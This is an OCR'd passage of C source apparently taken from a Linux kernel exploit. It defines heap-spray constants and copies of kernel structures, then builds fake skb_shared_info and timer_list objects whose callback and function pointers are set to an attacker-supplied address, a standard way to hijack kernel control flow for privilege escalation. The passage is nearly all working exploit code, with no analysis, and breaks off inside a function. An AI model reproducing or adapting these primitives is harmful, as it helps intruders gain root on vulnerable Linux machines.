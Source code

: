     #define TIMER_OFFSET        (728 + 48 + 104)
    #define KMALLOC_PAD 128
    #define KMALLOC_WARM 32
    #define CATCH_FIRST 6
    #define CATCH_AGAIN 16
    #define CATCH_AGAIN_SMALL 64
    // Port is incremented on each use.
    static int port = 11000;
    void debug(const char *msg) {
    /*
        char buffer[32];
        snprintf(&buffer[0], sizeof(buffer), "echo '%s' > /dev/kmsg\n", msg);
        system(buffer);
    */
    }
    // * * * * * * * * * * * * * * Kernel structs * * * * * * * * * * * * * * * *
    struct ubuf_info {
        uint64_t callback;        // void (*callback)(struct ubuf_info *, bool)
        uint64_t ctx;            // void *
        uint64_t desc;            // unsigned long
    };
    struct skb_shared_info {
        uint8_t  nr_frags;        // unsigned char
        uint8_t  tx_flags;        // __u8
        uint16_t gso_size;        // unsigned short
        uint16_t gso_segs;        // unsigned short
        uint16_t gso_type;        // unsigned short
        uint64_t frag_list;        // struct sk_buff *
        uint64_t hwtstamps;        // struct skb_shared_hwtstamps
        uint32_t tskey;            // u32
        uint32_t ip6_frag_id;        // __be32
        uint32_t dataref;        // atomic_t
        uint64_t destructor_arg;    // void *
        uint8_t  frags[16][17];        // skb_frag_t frags[MAX_SKB_FRAGS];
    };
    struct ubuf_info ui;
    void init_skb_buffer(char* buffer, void *func) {
        memset(&buffer[0], 0, 2048);
        struct skb_shared_info *ssi = (struct skb_shared_info *)&buffer[SHINFO_OFFSET];
        ssi->tx_flags = 0xff;
        ssi->destructor_arg = (uint64_t)&ui;
        ssi->nr_frags = 0;
        ssi->frag_list = 0;
        ui.callback = (unsigned long)func;
    }
    struct timer_list {
        void        *next;
        void        *prev;
        unsigned long    expires;
        void        (*function)(unsigned long);
        unsigned long    data;
        unsigned int    flags;
        int        slack;
    };
    void init_timer_buffer(char* buffer, void *func, unsigned long arg) {
        memset(&buffer[0], 0, 2048);
        struct timer_list* timer = (struct timer_list *)&buffer[TIMER_OFFSET];
        timer->next = 0;
        timer->prev = 0;
        timer->expires = 4294943360;
        timer->function = func;
        timer->data = arg;
        timer->flags = 1;
        timer->slack = -1;